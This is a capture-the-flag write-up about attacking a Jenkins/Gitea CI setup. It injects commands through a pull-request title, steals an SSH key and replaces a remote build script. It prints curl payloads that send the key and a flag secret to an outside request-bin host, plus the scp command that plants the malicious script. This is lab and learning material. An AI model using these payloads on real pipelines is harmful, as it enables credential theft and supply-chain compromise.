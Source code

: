# Dormouse

Our git user `thealice` has read access to the `Wonderland/dormouse` repository, but no write access. 

We can see there is a Jenkinsfile, and upon closer examination it appears to be running a script that it pulls from a remote host, `http://prod/reportcov.sh`.

With a little more sleuthing, we notice that in Gitea there is another organization defined, `Cov` with a single repository, `reportcov`. `thealice` also has read access to this repository, but like the former, no write.

Examining the Jenkinsfile in `reportcov`, we see it has two stages triggered by pull requests(being opened) and pushes respectively. We can't trigger a push to the main repo, so our only option is to somehow leverage opening pull requests. 

This also clues us in to the fact that there is a hidden pipeline in Jenkins that our `alice` Jenkins user cannot see.

I went down a rabbit hole trying to get either pipeline to work with a `reportconv.sh` that I manipulated myself. This led nowhere, unfortunately, so I looked at the clues.

This clued me in to the fact that the pull request stage is using unsanitized input from Gitea in order to craft an email. We can leverage this to inject our own commands into the pipeline by crafting our own special malicious title field and opening a pull request.

It took a while, but I was finally able to get the server to POST me the SSH key it was using in the latter stage(which we can't trigger), which itself is uploading `reportconv.sh` to a server that the `dormouse` pipeline will later come along and retrieve.

Using this title I was able to get the key:

```sh
&& curl -F "data=${key}" "https://eopmm0zwhtza68y.m.pipedream.net" -H "Authorization: Token testfromjenkins" || true && echo
```

From there, I think it is within reasonable scope to use this key to write our own malicious reportcov.sh script that the dormouse pipeline will use. 

Since this is all within a docker environment, I used the `localstack` container to copy over the malicious file(the only container I found that had ssh tools installed). You could probably do this from the host itself, but I didn't care to figure out how at this time.

From the `localstack container`:

```sh
echo 'curl -F "f=r" "https://eopmm0zwhtza68y.m.pipedream.net" -H "Authorization: Token ${FLAG}" || true' > reportcov.sh
echo "<key>" > key
chmod 600 key
scp -v -i key -o StrictHostKeyChecking=no reportcov.sh root@prod:/var/www/localhost/htdocs
```

Now when the dormouse pipeline runs, it will copy this script and execute the curl containing the flag in the Authorization HTTP header to our request bin. 
